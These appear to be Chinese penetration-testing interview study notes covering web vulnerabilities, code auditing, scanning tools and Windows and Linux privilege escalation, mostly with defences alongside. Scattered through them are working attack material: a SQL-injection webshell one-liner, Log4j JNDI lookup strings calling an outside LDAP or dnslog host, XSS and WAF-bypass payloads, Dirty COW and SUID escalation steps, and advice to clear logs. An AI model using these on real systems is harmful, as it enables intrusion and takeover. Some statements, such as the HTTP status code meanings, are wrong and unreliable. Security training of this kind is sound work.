- 严禁带入用户输入 用户的输入都是不可信的，通常这写函数关键字在使用时尽量不要带入用户输入。
- 过滤转义 字符串使用单引号包括可控代码，插入前使用addslashes（单引号（'）、双引号（"）、反斜线（\）与 NUL（NULL 字符））转义。
命令执行
直接调用操作系统的命令
常见的命令执行函数：
system(),passthru(),exec(),pcntl_exec(),shell_exec(),popen(),proc_open(),`(反单引号),ob_start(),php mail()
- 防御
使用过滤函数
内置函数 escapeshellcmd(), escapeshellarg() ,过滤和转义输入中的特殊字符
escapeshellcmd()：会在以下字符之前插入反斜线（\）： &#;`|*?~<>^()[]{}$\,\x0A和\xFF 。'和"仅在不配对的时候被转义。 在 Windows 平台上，所有这些字符以及 % 和 ! 字符都会被空格代替。
escapeshellarg()：将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。对于用户输入的部分参数就应该使用这个函数。
注意不要使用escapeshellcmd() 过滤escapeshellarg()过滤之后的字符串，这样会造成\’转义成\\’从而吃掉\的问题
使用参数白名单
在代码或配置文件中设置可输入的参数白名单，如果不在白名单列表中则提示错误。
目录遍历
程序在实现上没有充分过滤用户输入的…/之类的目录跳转符，导致恶意用户可以通过提交目录跳转来遍历服务器上的任意文件
- 防御
- 对用户的输入进行验证，特别是路径替代字符“…/”
- 尽可能采用白名单的形式，验证所有输入
- 合理配置web服务器的目录权限
- 程序出错时，不要显示内部相关细节
逻辑漏洞
- 越权漏洞 （一般在增删改查，登陆，更新的地方寻找越权漏洞）
- 水平越权: 攻击者尝试访问与他相同权限的用户资源
- 垂直越权: 攻击者访问比他高级别权限的用户
修改什么地方来验证
类似ID,user,uid这类身份标识类传参
Get请求修改url中参数。比如username=XXX
垂直越权：先抓取高权限的数据包，比如添加用户，然后再用低权限的cookie发送请求包
原理
因为开发人员在对数据进行增、删、改、查询时对客户端请求的数据过分相信而遗漏了权限的判定，一旦权限验证不充分，就易致越权漏洞。
防御
将身份校验写入会话，跟请求的资源做验证
- 清洗URL地址，并提取Api接口名称；
- 从session中提取当前登录用户的userid；
- 提取当前用户的角色id；
- 判断当前用户对应的角色是否有权限访问当前Api接口（检查垂直越权）；
- 最后判断当前登录用户是否对目标对象有操作权限（检查水平越权）。
- 类似订单号这种参数，生成时要无规律可循，可以通过hash算法进行加密；或者请求的数据包额外附带token，从而防止重放和遍历订单号这类攻击（篡改订单号）。
功能漏洞-带有业务功能场景漏洞
发送验证码存在哪些漏洞
- 无效验证
- 任意用户注册：先用自己的手机号接收验证码进行验证，然后跳到一个设定密码的页面抓包篡改任意手机号
- 验证码绕过
- 验证码不刷新
- 状态码绕过：将响应码修改成200直接绕过/error修改成OK等
- 前端校验：隐藏在网站源码或者ck中
- 可被识别：自动化工具登陆爆破PKAV的HTTP Fuzzer
- 空值绕过：直接删除验证码参数或者ck中的值，进行暴力破解
- 短信/邮件炸弹
- 验证码爆破：4-6位，若服务端未对验证时间、次数进行限制，则存在被爆破的可能
- 验证码与手机号未绑定：A的验证码B可以用
任意用户注册漏洞：可以使用任意手机号进行注册，操作步骤如下
1.在注册界面，输入自己的手机号；2.发送验证码，拿到验证码，然后退出登录界面；3.重新进入注册界面，输入任意人的手机号，输入刚才拿到的自己的验证码，注册成功
任意用户密码重置漏洞
可以任意修改任何账号的密码，操作步骤如下：1.在忘记密码界面，输入自己的手机号；2.发送验证码，拿到验证码，然后退出忘记密码界面；3.输入其他人的手机号，输入自己的验证码，验证成功，修改别人的密码成功。
- 防御
- 短信验证码不少于6位
- 在服务端验校验验证码与手机号绑定
- 有效期不超过1分钟
- 验证码错误次数超过上限应采取账户锁定策略
支付逻辑漏洞，怎么改价格
修改支付价格
在支付流程中，提交购买信息、确认支付、确认购买的流程中，如果相互之间没有做好验证机制，就有可能出现修改支付价格的漏洞。
在这三个步骤中，可以尝试抓包，修改支付价格。
修改支付状态
这个问题是没有对支付状态的值跟实际订单支付状态进行校验，导致点击支付时抓包修改决定支付或未支付的参数为支付状态的值从而达到支付成功。
修改购买数量
抓包，尝试修改购买数量，如果修改购买数量后，价格不变，亦或者修改购买数量为负数，如果价格为负数，同样会导致支付问题的产生。
最小额支付
在修改支付价格时，如果没有支付成功或兑换成功，并不能说明该网站不存在支付漏洞。注意网站的最小支付额，网站可能会对此进行校验，小于这个最小支付额，无法购买，也有可能兑换的物品为空。
值为最大值支付问题
以前也是看到过相关的例子，一些网站比如你购买商品，这里有2个思路修改值，1是直接修改支付金额值为最大值，比如999999999，或者修改附属值，如优惠卷，积分等为999999999，如果这里逻辑设计有问题，那么其支付金额会变为0。
修复防范
请求数据中对涉及金额、数量等敏感信息进行加密，并在服务器端对其进行校验.
支付交易请求数据中加入token，防止重放攻击
支付宝接口返回的价格 和 订单金额 进行比对，
登录框都可以测哪些漏洞
登录页面
明文传输，用户名可枚举，弱口令，暴力破解，sql注入（万能密码绕过）任意密码重置，XSS，验证码，URL重定向
登录认证绕过，图形验证码不失效，短信验证码绕过，短信炸弹
注册页面
批量注册，注册覆盖，短信邮件炸弹，验证码可爆破，图片验证码是否可绕过
反序列化
PHP反序列化
序列化(serialize)：将对象转换为字符串
反序列化(unserialze)：将字符串转换为对象
魔术方法：unserialize()时__wakeup() 或__destruct()的直接调用，中间无需其他过程）
PHP反序列化原理
由于程序没有对用户输入的反序列化字符串进行检测，导致反序列化过程可以被恶意控制，进而造成代码执行、getshell等一系列不可控的后果，一般程序在创建的时候，都会重写析构函数和构造函数，反序列化就是利用这些重写的函数
JAVA反序列化
序列化（writeObject）：把对象转换为字节序列的过程；
反序列化（readObject）：把字节序列恢复为 Java 对象的过程；
防御
结合调用链，unserialize上级调用链的类和函数进行白名单限制，在反序列化之前，过滤用户输入< 、？等
组件漏洞
- fastjson
- 中间件
Apache Log4j2远程代码执行与拒绝服务攻击漏洞（2.0<=2.15.0-rc1）
原理
主要是由于Nslookup循环解析JNDI，导致可以直接构造恶意请求，触发远程代码执行漏洞
“${jndi:ldap:// aqo3x3.dnslog.cn}”
由于Apache Log4j2某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞Apache Log4j2中存在JNDI注入漏洞，当程序将用户的数据进行日志记录时，即可触发此漏洞，
Apache Log4j是一个基于JAVA的日志记录组件，Apache Log4j2是Log4j的升级版本，通过重写log4j引入了丰富的功能特性，用于记录程序输入输出的日志信息
- 修复方式
- 更新至官方修复版本
在jvm启动参数中添加：-Dlog4j2.formatMsgNoLooKups=true 禁用nolookups
系统环境变量中配置：FORMAT_MESSAGES_PATTERN+DISABLE_LOOKUPS=r=true
项目中创建log4j2.component.properties文件，文件中增加配置log4j2. formatMsgNoLooKups=true
信息收集
Google Hacking 语法
site 指定域名
inurl URL存在关键字的网页
intitle 标题中存在关键字的网页
intext 正文中存在关键字的网页
info 一些基本信息
filetype 搜索指定文件类型
安全工具使用
一些概念
同源策略
浏览器安全的基石是"同源政策"，目的是为了保证用户的信息安全，防止恶意网站窃取数据，避免cookie共享。同源含义是协议、域名、端口相同的两个网页才可以共用cookie
Get和Post
Get是不安全的，因为在传输过程，数据被放在请求的URL中；传送的数据量较小
Post的所有操作对用户来说都是不可见的，相对安全。传送的数据量较大，一般被默认为不受限制
session与cookie:
session是存储服务器端，cookie是存储在客户端，所以session的安全性比cookie高。
cookie：存储本地，存活时间较长。不是很安全，别人可以分析存放在本地的cookie并进行cookie欺骗
session：存储服务器上，存活时间较短，重要信息应该存放为session。大型网站
linux 常见命令添加 删除 修改 复制一个文件
ls：查看文件夹包含的文件 文件权限. 目录信息
-l ：列出长数据串，包含文件的属性与权限数据等
-a ：列出全部的文件，连同隐藏文件（开头为.的文件）一起列出来（常用）
-d ：仅列出目录本身，而不是列出目录的文件数据
-h ：将文件容量以较易读的方式（GB，kB等）列出来
-R ：连同子目录的内容一起列出（递归列出），等于该目录下的所有文件都会显示出来
cd :用于切换当前目录
pwd :查看"当前工作目录"的完整路径
-P :显示实际物理路径，而非使用连接（link）路径
-L :当目录为连接路径时，显示连接路径
mkdir :创建目录
-m : 设定权限<模式> (类似 chmod)，
- p : 可以是一个路径名称
-v : 每次创建新目录都显示信息
rm : 删除
-f : 忽略不存在的文件，从不给出提示
-r : 将 test 子目录及目录中所有档案删除
rmdir : 删除空的目录 从
-p： 当子目录删除后其父目录为空时，也一同被删除
mv ：移动文件或者将文件改名
cp： 将源文件复制至目标文件
touch：更改文档或目录的日期时间，包括存取时间和更改时间
cat ：连接文件并打印到标准输出设备上
windows linux 最高权限是什么
Windows是system；Linux是 root
整数溢出
计算机语言中整数类型都有一个宽度，也就是说，一个整数类型有一个最大值和一个最小值。
当2个整数计算时，结果大于最大值或小于最小值就是溢出
sqlmap使用方法命令
--dbs【检测站点包含哪些数据库】 --current-db【获取当前的数据库名】 --tables -D "db_name"【获取指定数据库中的表名 -D后接指定的数据库名称】 --columns -T "table_name" -D "db_name"【获取数据库表中的字段】 --dump -C "columns_name" -T "table_name" -D "db_name"【获取字段的数据内容】 –batch #全部默认确定
COOKIE注入：
sqlmap -u "http://www.xx.com?id=x" –cookie "cookie" –level 2【cookie注入后接cookie值】
- POST注入（3种方式）：
sqlmap -r okay.txt -p username
-r表示加载文件 -p指定参数（拦截的post请求中表单提交的用户名或密码等name参数）
自动获取表单：–forms自动获取表单
例如：sqlmap -u www.xx.com/login.asp –forms
指定参数搜索：–data
例如:sqlmap -u www.xx.com/login.asp –data "username=1"
sqlmap -u http://vip.fj0730.cn/login.asp –forms –dbs
如何绕过CDN获取目标网站的真实IP，谈谈你的思路、
子域名查询（小技巧 pin检测的时候去掉www.）
超级PING
利用国外地址请求（https://get-site-ip.com/ https://get-site-ip.com/ ）
邮件服务查询
黑暗引擎搜索
Phpinfo测试文件
子域名查询工具
burpSuite
爆破四种模式？简述过程
Sniper（狙击手模式）：一次只使用一个payload位置。适合对参数单独地进行测试
Battering ram（攻城锤模式）：只使用一个payload集合，适合把相同的输入放到多个位置的情况。简单说就是一个playload字典同时应用到多个position中。每次攻击都是替换所有payload标记位置
Pitchfork（交叉模式）：这一模式是使用多个payload组。可以使用不同的payload组。攻击会同步迭代所有的payload组，把payload放入每个定义的位置中，适合不同位置中需要插入不同但相关的输入的情况
Cluster bomb（集束炸弹）：会对payload组进行笛卡尔积，每种payload组合都会被测试一遍，可以理解为暴力破解穷举法。适用于位置中需要不同且不相关或者未知的输入的攻击。
BurpSuite重放包怎么做？
发送到Repeater
对POST请求用户名密码爆破发送到哪里？
发送到Intruder
判断出网站的CMS对渗透有什么意义？
查找网上已曝光的程序漏洞。
如果开源，还能下载相对应的源码进行代码审计
解析漏洞
IIS 5.X/6.0解析漏洞
目录解析 /xx.asp/xx.jpg
形式：www.xxx.com/xx.asp/xx.jpg
原理: *.asp、.asa目录下的所有文件都被当作asp文件来解析并执行
文件解析 Xxx.asp;.jpg（IIS6.0）
形式：www.xxx.com/xx.asp;.jpg
原理：服务器默认不解析;号及其后面的内容，相当于截断，因此xx.asp;.jpg便被解析成asp文件了
解析文件类型
- IIS 6.0默认可执行文件除了ASP还包括.asa、.cer、.cdx
Apache 解析漏洞
后缀解析漏洞
Apache 解析文件的规则是从右到左开始判断解析,如果后缀名为不可识别文件解析,就再往左判断。比如 test.php.owf.rar “.owf”和“.rar” 这两种后缀是apache不可识别解析,apache就会把wooyun.php.owf.rar解析成php
www.xxx.xxx.com/test.php.php123
.htaccess文件解析
先上传一个.htaccess文件，然后这个文件同目录下的所有文件都可以解析为PHP文件
Nginx <8.03 空字节代码执行漏洞
例如：= = 会把1.jpg文件（木马文件）当做PHP文件来执行。
= 会把1.jpg文件（木马文件）当做PHP文件来执行。
Nmap常用命令
-p扫描指定端口和端口范围
-sP对目标主机进行ping扫描
-A使用高级功能进行扫描
-PE强制执行直接的ICMPping
-sV探测服务版本信息
-d增加调试信息地输出
-PU发送udp ping
-ps发送同步（SYN）报文
识别操作系统：nmap -O 192.168.152.130
半开扫描：nmap -sS 192.168.152.130
全开扫描：nmap -sT 192.168.152.130
用过哪些扫描工具，区别是什么
Awvs：漏洞扫描速度较快，准确率较高，漏洞规则库较为全面。漏洞验证可查看请求响应代码，但无中文界面。报表功能完整。有多重漏洞的验证工具
Nessue：扫描速度快，能扫描系统层和web层类漏洞，但web漏洞发现能力不如appscan, 扫描IP限制为16个
Goby：安装过程非常简单，Windows解压缩直接双击EXE即可运行，可跨平台支持Windows、Linux、 Mac。功能上也挺全面的，提供最全面的资产识别，最快的扫描体验，内置可自定义的漏洞扫描框架。
Xrar：被动扫描
Nmap：主要用于系统层扫描，扫描速度快，准确率高，漏洞规则库全面，报表功能强大。
获取webshell都有哪些方式
1：文件上传；
2：SQL注入：用into outfile 写入一句话【 ' union select 1,"<?php eval($_POST['a']);" into outfile '/var/www/html/shell2.php】
3：文件包含：配合文件上传图片码进行包含；包含中间件日志；本地文件包含系统关键文件；
4：XSS：获取cookie登录—webshell
5：远程命令执行
6：解析漏洞
加密算法：
对称加密：加密和解密都用相同的密钥
优点：速度快，缺点是密钥管理不方便，要求共享密钥。
DES：分组式加密算法，以64位为分组对数据加密，加解密使用同一个算法。
3DES：三重数据加密算法，对每个数据块应用三次DES加密算法。
AES：高级加密标准算法，是美国联邦政府采用的一种区块加密标准，用于替代原先的DES，目前已被广泛应用。
Blowfish：Blowfish算法是一个64位分组及可变密钥长度的对称密钥分组密码算法，可用来加密64比特长度的字符串。
非对称加密：加密和解密是不同的密钥，公钥和私钥是一对，用公钥对数据加密，对应的私钥解密
优点：密钥管理很方便，缺点是速度慢。
RSA：RSA算法基于一个十分简单的数论事实：将两个大素数相乘十分容易，但那时想要对其乘积进行因式分解却极其困难，因此可以将乘积公开作为加密密钥，可用于加密，也能用于签名。
DSA：数字签名算法，仅能用于签名，不能用于加解密。
DSS：数字签名标准，技能用于签名，也可以用于加解密。
ELGamal：利用离散对数的原理对数据进行加解密或数据签名，其速度是最慢的。
散列算法（单向加密）：
MD5：是HASH算法一种、 是生成32位的数字字母混合码。 MD5主要特点是不可逆
SHA1：是哈希算法的一种
Sha224
- 明文传输 防御：
- 使用https， HTTPS（443）在HTTP（80）的基础上加入了SSL协议，SSL依靠证书来验证服务器的身份，并为浏览器和服务器之间的通信加密。传输前用公钥加密，服务器端用私钥解
- 密码在传输前使用安全的算法加密后传输，可采用：不可逆hash算法加盐（4位及以上随机数，由服务器端产生）；安全对称加密算法，如AES(128、192、256位)，且必须保证客户端密钥安全，不可被破解或读出；非对称加密算法，如RSA(不低于1024位)、SM2等。
http和https区别
https请求过程：
- 客户端向服务端发起https请求，连接到服务端的443端口
- 服务端将自己的数字证书其中包含公钥发送给客户端
- 客户端收到后，会先验证证书的合法性。如果有异常，就会弹出警告信息。如果没问题会生成一个随机数，然后使用公钥对随机数进行非对称加密
- 将加密后的随机值传到服务器
- 服务器使用私钥对其进行非对称解密后，得到客户端的随机值，然后把内容通过该随机值进行对称加密
- 服务端将对称加密后的信息发给客户端
- 客户端用之前的生成的随机值来进行对称解密，获取内容明文
http请求过程：
- 建立TCP链接（通过TCP三次握手与服务器端建立连接）
- 浏览器向服务器发送请求
- 浏览器发送请求头信息
- 服务器应答版本号和协议状态码
- 服务器发送应答头信息
- 服务器向浏览器发送数据
- 服务器关闭TCP链接
状态码：
- 200 数据数据请求成功
- 304表示页面重定向
- 404 表示请求数据成功但是页面丢失
- 502 表示服务器处理失败
三次握手
- 客户端向服务端发送SYN包（其中包含端口号和初始序列号）之后进入syn发送状态；
- 服务端收到SYN包后确认客户端的SYN，同时向客户端发送SYN+ACK包（其中包含 确认号 和 服务端的初始序列号）， 之后进入syn收到状态；
- 客户端向服务端发送ACK包，发送完毕之后，客户端和服务端进入建立链接状态，开始传送数据
SYN：同步序列号，用于建立会话连接
Seq：初始化序列号
ACK：确认号，对已接收的数据包进行确认。只有当ACK=1时,确认号才有效，当ACK=0时，确认号无效
FIN：结束
为什么是三次，不是两次？四次？
- 为了防止旧的重复连接初始化造成混乱（主要原因）
- 三次握手才可以同步双方的初始序列号
- 三次握手才可以避免资源浪费
四次挥手
- 客户端向服务端发送FIN数据包，请求关闭连接。自身进入等待结束连接状态
- 服务端向客户端发送ACK确认报文，同时进入关闭等待状态
- 服务端向客户端发送FIN请求数据包
- 客户端向服务端发送ACK确认数据包，进入等待状态，这个阶段将持续2秒后关闭
为什么建立连接协议是三次握手，而关闭连接却是四次握手呢
因为当服务端收到SYN报文的建立连接请求后，它可以把ACK和SYN（ACK起应答作 用，而SYN起同步作用）放在一个报文里来发送。但关闭连接时，当收到对方的 FIN报文时，它仅仅表示对方没有数据发送给你了；但未必你所有的数据都全部 发送给对方了，所以当你还需要发送一些数据给对方之后，再发送FIN报文给对 方来表示你同意可以关闭连接了，所以这里的ACK报文和FIN报文多数情况下都是 分开发送的
分块传输为什么可以绕过waf
因为waf一般是对HTTP数据包，或者关键词进行过滤的，启用分块传输之后，关键词由于换行符等干扰，并没有将其组成完整的HTTP数据包。所以可以绕过WAF
进阶-代码审计及CVE面试
代码审计
PHP代码审计
什么时候做代码审计
上线前做
审计流程（如何确保审计的代码的全面性）
1. 查找用户输入 2. 查找危险函数 3. 审计业务功能（如 头像上传/系统登陆/文件下载） source（用户输入点）-—> sink(漏洞产生点) 如果一个source能到达一个sink那就是有漏洞 如果一个用户输入最终传导到了一个有漏洞的函数上，那就是有漏洞拿到一个项目之后流程
非前后端分离（很少了）： 1. 找入口 -> index.php 2. 查看入口 -> 全局搜索 $_POST/$_GET 3. 查找危险函数：exec/mysqli_query 前后端分离（没有页面）： 1. 找接口
php危险函数：
sql注入：mysqli_query/$mysqli->query 命令执行：system/exec/passthru/shell_exec/popen/proc_open/pcntl_exec 代码注入：eval/assert/preg_replace/call_user_func/call_user_func_array/create_function 文件包含：require(停止)/require_once/include（继续）/include_once 文件上传：move_uploaded_file 反序列化：unserialize mail函数：通过【-X】指定log文件记录邮件流量，mail($to, $subject, $message, $headers, $options);实际可以达到写文件的效果（重点关注第五个参数是否用户可控） 修复：使用过滤函数 escapeshellcmd(), escapeshellarg() ,过滤和转义输入中的特殊字符
php原生过滤函数
1.escapeshellarg：传入参数添加单引号并转义原有单引号 用于防止命令注入 2.addslashes：在预定义自符之前添加反斜杠，可用于防止SQL注入 3.htmlspecialchars 和 htmlentities 将特殊字符转义成html实体 可用于防止XSS 4.PDO::quote 转义特殊字符 并添加引号 5.PDO::prepare 预处理SQL语句 有效防止SQL注入 (推荐) 6.intval($input) floatval() floatval() floor() (int)$input num+***\*0\**** 将输入强制转换为整数/浮点 常见于防止SQL注入
thinkphp框架代码审计
- 如何识别thinkphp框架
- 看代码里面是否有think文件
- 看代码特征里面是否有think
- 看composer.json里面是否有think
- thinkphp框架审计
- controller 里面的参数是用户输入，直接审就行
- route->controller->查找用户输入
查找的关键函数
sql注入：Query/execute/DB::(查看是否有拼接用户输入，并且是字符串；如果是【get.id/d】那就没有注入，因为/d是强制转换为整形
文件上传：move_uploaded_file
命令执行：shell_exec
- 硬编码漏洞
会引发文件包含
硬编码漏洞在php里是一个很大的问题，但是java就不是
- thinkphp框架审计
- controller 里面的参数是用户输入，直接审就行
- route->controller->查找用户输入
- 查找用户输入：Request::instance(自动识别是get，post，put)/input
JAVA代码审计
SQL注入审计
ORM 框架
- Hibernate框架
如何查看是否有SQL注入： 1.查找执行函数 createQuery 2.看SQL语句是否使用+号拼接
如何预编译： 先用占位符，set内容 绑定参数
- MyBatis框架（企业中最常用的）
如何查看是否有SQL注入：
在XML文件中搜索 * 或者 $
select * from Blog where id = ${id} * 拼接（有漏洞）
select * from Blog where id = *{id} * 预编译（无漏洞）
- 查看是否int类型，如果是string并且用$拼接，那就有SQL注入
使用 like 如何预编译：要使用concat
select * from user where name like concat('%', *{name}, '%')
不能使用*号做预编译的：
任何必须使用引号的地方都不能用，例如：order by,table,limit,offset 【limit,offset】修复建议：强制使用数字型 【order by】修复建议：强制使用数字型+数字和字段的映射 【order by】修复建议：加反引号
- JdbcTemplate
审计的关键字
java.sql.Connection.prepareStatement java.sql.ResultSet.getObject select insert java.sql.Statement.executeUpdate java.sql.Statement.addBatch java.sql.Statement.executeQuery java.sql.Statement.execute execute executestatement createStatement java.sql.ResultSet.getString executeQuery jdbc delete update java.sql.Connection.prepareCall
FastJson
审计方法：
看pom.xml文件里面的版本，把所有有漏洞的版本查一遍，一般用自动化工具识别
注意问题
使用了预编译就一定没有sql注入吗
如果在执行【预编译】之前就已经拼接了用户输入，那即使用了预编译也是有sql注入的
【PreparedStatement】 预编译
SQL注入修复（占位符）：
两种形式：
- ？（问号）
- ：name（冒号+变量名）
工具-Cobra
ssh登录虚拟机
1. 开启sshd：service sshd start 2. 查看sshd是否有启动成功：ps aux|grep sshd 3. 查看虚拟机的IP地址 4. 在主机电脑输入命令：ssh root@虚拟机Ip 5. 如果首次连接，会有提示需要输入 yes 6. 电脑退出连接ssh：ctrl+D python2 cobra.py -H 0.0.0.0 -P 8889
启动cobra
1. python2 cobra.py -H 0.0.0.0 -P 8889 查看进程：ps aux | grep cobra 结束进程：kill -9
DevSecOps
需求 —> 设计 —> 开发 —> 构建 —> 测试 —> 部署
需求：登录框加密传输
设计：具体的加密方式
开发：IDE插件/对开发人员进行培训
构建：代码扫描
测试：黑盒扫描
将安全左移至开发阶段，并最终集成在整个生命周期中，完成敏捷化的自适应风险和信任评估
绕WAF
SQL注入绕WAF
- 大小写 （unIoNSelect）
- 双写 （ununionion ==> 去掉union ==> union）
- 编码 （URL编码，Unicode编码，十六进制编码，其他后端会解析的编码）
- 引号：十六进制（0x7573657273）
- 关键字替换 （and=&& or=||）
- 空格绕过 （注释 /**/）
- 内联注释 （ *! Union * 结合 %0a 换行使用） 注释也可以和换行搭配使用，注释掉后面的内容，再通过换行逃逸到注释之外 test.php?id=1 /*!order*//**/%23A%0A/**/%23A%0A/*!by*//**/2
- 垃圾字符 （缓冲区溢出，超大包传输，一般WAF对数据包的长度有限制，太大的就不检测）
- 分块传输 （头部加入 Transfer-Encoding: chunked 之后，就代表这个报文采用了分块编码）
- 参数污染（给参数附上多个值，不同的服务器会取不同的值）
XSS绕WAF
利用svg标签进行绕过; <svg> 标记定义 SVG 图形的容器 <svg/onload=alert(1)> base64编码即可绕过 过滤单引号：反引号绕过 过滤空格：注释符绕过 <!-- --> // /**/ XSS “OnMoUsEoVeR=prompt(1)// 适合搜索框测也可以url结尾测 “-prompt(1)-“ URL测结尾参数 “><iMg SrC=1 oNeRrOr=prompt(1)> URL测插入参数
提权
windows提权
win常用提权方法
- 内核溢出漏洞提权
- 数据库提权（UDF/MOF/启动项）
- 错误的系统配置提权
- web中间件漏洞提权
- DLL劫持提权
- 滥用高位权限令牌提权
- 第三方软件提权
- 组策略首选项提权
1. 内核溢出漏洞提权
通过系统本身存在的一些漏洞，未曾打相应的补丁而暴露出来的提权方法，依托可以提升权限的EXP和它们的补丁编号，进行提升权限
本地溢出提权首先要有服务器的一个普通用户权限，攻击者通常会向服务器上传本地溢出程序，在服务器端执行，如果系统存在漏洞，那么将溢出Administrator权限。
方法：
- 先获得一个 webshell
- 使用msf生成一个exe后⻔；通过 webshell 执行该后⻔程序
- 得到一个meterpreter会话之后，查询哪些提权exp可以用
- 通过MSF利用
2. 数据库提权
mysql获取账号密码：
- config 配置文件
- sqlmap
- 暴力破解 — hydra
- 2.1 UDF提权 (通过mysql获得管理员权限)
原理
自定义的函数才被当作本机函数执行。在使用CREAT FUNCITON调用dll中的函 数后，mysql账号转化为system权限，从而来提权
UDF 用户自定义函数，是mysql的一个拓展接口。
用户可以通过自定义函数实现在mysql中无法方便实现的功能，其添加的新函数都可以在sql语句中调用，就像调用本机函数一样
提权的条件
mysql数据库的账号有insert和delete权限以创建和抛弃函数，如root账户
mysql版本 < 5.1 , UDF导出到系统目录c:/windows/system32/
mysql版本 > 5.1 ，UDF导出到安装路径MySQL\Lib\Plugin\
可以将udf.dll写入到相应目录的权限
- 提权流程
- 获取webshell之后，
- 查看 config 配置信息，找到数据库账号密码，连接上数据库
- udf提权，通过sqlmap制作dll文件
- 把dll文件通过webshell上传到 /lib/plugin 目录下 （没有目录需要自己创建）
- create function sys_eval （自定义函数）
- 创建管理员权限的账号
防御
其实造成udf提权的原因，主要是数据库的权限太高，所以导致了利用函数的方式来命令执行，最好的预防方法，就是【调低使用权限】
- 2.2 MOF提权
原理
MOF文件每五秒就会以系统权限执行，通过mysql使用【load_file】和【into dumpfile 】将文件导入mof目录下，MOF当中有一段是vbs脚本，一般都是cmd的添加管理员用户的命令。
我们可以通过控制这段vbs脚本的内容让系统执行命令，进行提权。
- 流程
- 上传VB脚本至到有读写权限的目录下
- 使用 load_file 和 into dumpfile 将文件导入到mof目录下
- 执行系统命令
- 提权条件
- windows 03 及以下版本
- mysql启动身份具有权限去读写c:/windows/system32/wbem/mof目录
- secure-file-priv参数不为null
- 2.3 启动项提权
原理
利用mysql，将后门写入开机启动项。因为是开机自启动，写入之后，需要重启目标服务器
(这个要求mysql的权限就很高，至少是管理员权限甚至是system，可以利用一些漏洞尝试打蓝屏重启)
linux提权
获取webshell之后 上传脚本一般都上传至 /tmp目录（临时文件，具有可读写权限）
内核漏洞 脏牛提权（CVE 2016-5195 ）
uname -a *查看内核版本信息
原理
linux内核的子系统在处理写时复制时产生了条件竞争漏洞，低权限用户可以利用该漏洞修改只读内存，进而执行任意代码获取Root权限。
- 提权流程
- 上传提权exp：dirty.c
- 使用gcc进行编译：gcc -pthread dirty.c -o dirty -lcrypt
- 进行提权（root是随便输入的密码）：./dirty root
- 查看/etc/passwd发现多了一个用户firefart
- su firefart，输入密码即root
SUID提权
原理
SUID是Linux的一种权限机制，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。如果拥有SUID权限，那么就可以利用系统中的二进制文件和工具来进行root提权
chmod u+s filename 设置SUID位
chmod u-s filename 去掉SUID设置
️注
SUID权限仅对二进制程序有效
执行该程序必须具有x的执行权限，否则s权限并不能真正生效
本权限仅在执行该程序的过程中有效，拥有临时身份
执行者将具有该程序拥有者(owner)的权限
- 提权流程
- 获取webshell
- 查找具有root权限的SUID文件
- 利用已知命令提权
已知的可用来提权的linux可行性的文件列表如下：
nmap vim find bash more less nano cp
查找具有root权限的SUID的文件
find / -user root -perm -4000 -print 2>/dev/null find / -perm -u=s -type f 2>/dev/null find / -user root -perm -4000 -exec ls -ldb {} \;利用find命令提权至root权限
find / -name one.php -exec "whoami" \;
Linux polkit 本地提权（CVE-2021-4034）
Polkit 是用于在类 Unix 操作系统中控制系统范围特权的组件。它为⾮特权进程提供了与特权进程进行通信的有组织的⽅式。
polkit 的 pkexec 存在本地权限提升漏洞，已获得普通权限的攻击者可通过此漏洞获取root权限。
利用：
- 通过webshell上传exp
- 执行cve-2021-4034-poc 提权
- 获得root权限
其他问题汇总
渗透思路
1、信息收集
a、服务器的相关信息（真实ip，系统类型，版本，开放端口，WAF等）
b、网站指纹识别（包括，cms，cdn，证书等），dns记录
c、whois信息，姓名，备案，邮箱，电话反查（邮箱丢社工库，社工准备等）
e、子域名收集，旁站，C段等
f、google hacking针对化搜索，pdf文件，中间件版本，弱口令扫描等
g、扫描网站目录结构，爆后台，网站banner，测试文件，备份等敏感文件泄漏等
h、传输协议，通用漏洞，exp，github源码等
2、漏洞挖掘
a、浏览网站，看看网站规模，功能，特点等
b、端口，弱口令，目录等扫描,对响应的端口进行漏洞探测，比如 rsync,心脏出血，mysql,ftp,ssh弱口令等。
c、XSS，SQL注入，上传，命令注入，CSRF，cookie安全检测，敏感信息，通信数据传输，暴力破解，任意文件上传，越权访问，未授权访问，目录遍历，文件 包含，重放攻击（短信轰炸），服务器漏洞检测，最后使用漏扫工具等
3、漏洞利用&权限提升
a、mysql提权，serv-u提权，oracle提权
b、windows 溢出提权
c、linux脏牛,内核漏洞提权
4、清除测试数据&输出报告
日志、测试数据的清理
总结，输出渗透测试报告，附修复方案
5、复测
验证并发现是否有新漏洞，输出报告，归档
Apache Log4j2的漏洞
原理：
Apache Log4j2是一款优秀的Java日志框架
由于Log4j2某些功能存在递归解析功能，log4j2提供的lookup功能，在处理程序日志记录时存在JNDI注入缺陷，攻击者可直接构造的恶意数据，触发远程代码执行
也就是当记录日志的一部分是用户可控时，就可以构造恶意字符串使服务器记录日志时调用JNDI访问恶意对象，JNDI是 Java 命名与目录接口
利用：
利用 LDAP 服务发起攻击 ${jndi:ldap:xxx.xxx.xxx.xxx:xxxx/exp}
防御
更新补丁/升级版本
采用 waf 对请求流量中的 ${jndi} 进行拦截；
上传点可能存在哪些漏洞
- 文件上传漏洞
- SSRF（通过URL方式上传）
常见的未授权访问漏洞有哪些
- redis 未授权
- JBOSS 未授权
- Docker 未授权
- MongDB 未授权
代码执行，命令执行 函数
代码执行：eval，assert，call_user_func，create_function， array_map
命令执行：system，exec，shell—exec，popen
nmap常见参数
半开扫描：-sS （三次握手没有最后一步，好处是可以规避日志记录）
全开扫描：-sT （建立三次握手）
识别操作系统：-O
禁ping扫描：-Pn
ping扫描：-sP
识别操作系统：nmap -O
常用参数：nmap -Pn 192.168.1.2 -p 1-65535 -T4
etc/passwd，etc/showdow区别
/etc/passwd(所有用户都可读）：用户名，密码，UID，GID，描述信息，主目录，默认Shell路径
etc/passwd/showdow（root权限可读）：用户名，密码
os–shell 和 os–cmd 区别
–os-cmd=id *执行系统命令
–os-shell *系统交互shell
CRLF 注入漏洞（http拆分）
原理：
是因为Web应用没有对用户输入做严格验证，导致攻击者可以输入一些恶意字符。攻击者一旦向请求行或首部中的字段注入恶意的CRLF，就能注入一些首部字段或报文主体，并在响应中输出，所以又称为HTTP响应拆分漏洞
CRLF指【回车符】+【换行符】 CR：回车 \r,%0d LF：换行 \n,%0a
